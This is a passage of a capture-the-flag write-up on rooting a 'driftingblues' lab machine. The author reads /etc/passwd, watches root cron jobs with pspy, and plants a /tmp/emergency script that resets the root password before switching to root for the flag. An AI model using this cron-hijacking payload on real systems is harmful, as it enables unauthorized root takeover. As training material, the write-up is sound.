 ░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

We can read the /etc/passwd file and find there is another user named db, maybe he can be of any use to us.

db:x:1000:1000:db,,,:/home/db:/bin/bash

I tried searching the user's home folder for hidden files but found nothing, I also tried finding files with SUID permissions but also found nothing.
Maybe there are running proccess that we can exploit. There is a tool named "pspy" that let's us see running proccess on a victim's machine, letting it run for a five minutes there are a couple of proccess that are running every minute.
(Searching for "linux automated tasks", I learned that "crontab" allows to run automated tasks).

2022/01/17 23:36:01 CMD: UID=0    PID=13364  | sudo /tmp/emergency 
2022/01/17 23:36:01 CMD: UID=0    PID=13361  | /bin/sh /var/backups/backup.sh 
2022/01/17 23:36:01 CMD: UID=0    PID=13360  | /bin/sh -c /bin/sh /var/backups/backup.sh 
2022/01/17 23:36:01 CMD: UID=0    PID=13359  | /usr/sbin/CRON -f 
2022/01/17 23:36:01 CMD: UID=0    PID=13365  | /bin/bash /tmp/emergency 

We can see that a file named /tmp/emergency is running as root and the file /var/backups/backup.sh, we have permissions to read the file:

#!/bin/bash

/usr/bin/zip -r -0 /tmp/backup.zip /var/www/
/bin/chmod

#having a backdoor would be nice
sudo /tmp/emergency

We can try to change the /tmp/emergency file to start a new root shell or change the root password.
There is not file named emergency, so we can create one and make it run our own script.

/tmp/emergency:

#!/bin/bash

echo -e '1\n1' | passwd

Since the /tmp/emergency file is running every minute as root, we can wait and let the password be changed.

eric@driftingblues:/var/backups$ su root
Password: (1)
root@driftingblues:/var/backups# whoami
root

Going to the /root folder we find the second flag.
root.txt:
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█